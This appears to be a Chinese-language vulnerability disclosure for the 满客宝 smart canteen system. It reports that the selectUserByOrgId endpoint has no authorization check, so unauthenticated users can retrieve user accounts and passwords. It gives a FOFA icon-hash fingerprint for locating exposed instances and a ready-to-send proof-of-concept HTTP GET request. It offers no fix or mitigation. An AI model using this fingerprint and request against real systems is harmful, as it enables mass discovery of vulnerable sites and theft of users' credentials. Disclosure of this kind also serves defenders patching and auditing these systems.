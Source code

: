 # 满客宝智慧食堂系统selectUserByOrgId存在未授权访问漏洞

**满客宝智慧食堂系统 selectUserByOrgId 接口处未进行权限控制，导致未经身份验证的远程攻击者可以未授权访问，泄露系统用户账号密码等信息.**

## fofa

```yaml
icon_hash="-409875651"
```

## poc

```yaml
GET /yuding/selectUserByOrgId.action?record= HTTP/1.1
Host: 127.0.0.1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

![image-20240806235606039](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202408062356228.png)